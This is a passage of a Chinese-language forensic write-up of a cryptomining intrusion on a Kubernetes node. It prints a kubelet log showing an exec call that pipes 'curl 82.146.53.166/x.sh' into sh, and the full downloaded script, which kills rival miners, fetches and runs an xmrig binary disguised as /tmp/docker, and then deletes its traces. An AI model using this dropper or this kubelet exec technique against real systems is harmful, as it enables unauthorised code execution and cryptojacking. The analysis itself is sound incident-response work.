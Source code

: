 ## 入侵路径分析

查看下进程启动时间，一个是7月12号的（运行一周了..），另外三个是下午4点的。

	# ps  -eo  pid,lstart,cmd,args  |grep k.conf
	 9381 Thu Jul 12 00:02:50 2018 /tmp/docker -c /tmp/k.conf  /tmp/docker -c /tmp/k.conf
	16210 Fri Jul 20 16:01:51 2018 /tmp/docker -c /tmp/k.conf  /tmp/docker -c /tmp/k.conf
	16654 Fri Jul 20 16:03:13 2018 /tmp/docker -c /tmp/k.conf  /tmp/docker -c /tmp/k.conf
	17550 Fri Jul 20 16:07:03 2018 /tmp/docker -c /tmp/k.conf  /tmp/docker -c /tmp/k.conf

检查kubelet日志，发现有一条比较奇怪：

	Jul 20 16:03:04 proxy-67 kubelet[2108]: INFO:0720 16:03:04.807109    2108 server.go:794] GET /exec/kube-system/kubectl-k12l8/service-proxy?command=/bin/sh&command=-c&command=curl+82.146.53.166/x.sh+|+sh&input=1&output=1&tty=1: (6.226937ms) 302 [[Go-http-client/1.1] 92.63.106.91:54078]

日志显示拉取并执行了一个脚本：

	curl 82.146.53.166/x.sh|sh &input=1&output=1&tty=1:

将脚本的内容拿下来查看，`curl 82.146.53.166/x.sh` ：

	#!/bin/sh
	pkill -f cryptonight
	pkill -f sustes
	pkill -f xmrig
	pkill -f xmr-stak
	pkill -f suppoie
	pkill -f zer0day.ru
	
	WGET="wget -O"
	if [ -s /usr/bin/curl ];
	        then WGET="curl -o";
	fi;
	if [ -s /usr/bin/wget ];
	        then WGET="wget -O";
	fi
	if [ ! "$(ps -fe|grep '/tmp/docker -c /tmp/k.conf' |grep -v grep)" ]; then
	        f1=$(curl 82.146.53.166/g.php)
	        if [ -z "$f1" ];
	                then f1=$(wget -q -O - 82.146.53.166/g.php)
	        fi
	
	        f2="82.146.53.166"
	        if [ `getconf LONG_BIT` = "64" ]
	                then
	                $WGET /tmp/docker http://$f1/xmrig_64?$RANDOM
	        else
	                $WGET /tmp/docker http://$f1/xmrig_32?$RANDOM
	        fi
	
	        chmod +x /tmp/docker
	        $WGET /tmp/k.conf http://$f2/k.conf
	        nohup /tmp/docker -c /tmp/k.conf>/dev/null 2>&1 &
	        sleep 5
	        rm -rf /tmp/k.conf
	        rm -f /tmp/docker
	fi
	pkill -f logo9.jpg
	crontab -l | sed '/logo9/d' | crontab -


[1]: https://github.com/docker/for-linux/issues/324  "/tmp/docker -c /tmp/k.conf process use 100% CPU"
[2]: https://medium.com/handy-tech/analysis-of-a-kubernetes-hack-backdooring-through-kubelet-823be5c3d67c  "Analysis of a Kubernetes hack — Backdooring through kubelet" 
[3]: https://serverfault.com/questions/173999/dump-a-linux-processs-memory-to-file "Dump a linux process's memory to file"
[4]: https://github.com/xmrig/xmrig "XMRig is a high performance Monero (XMR) CPU miner"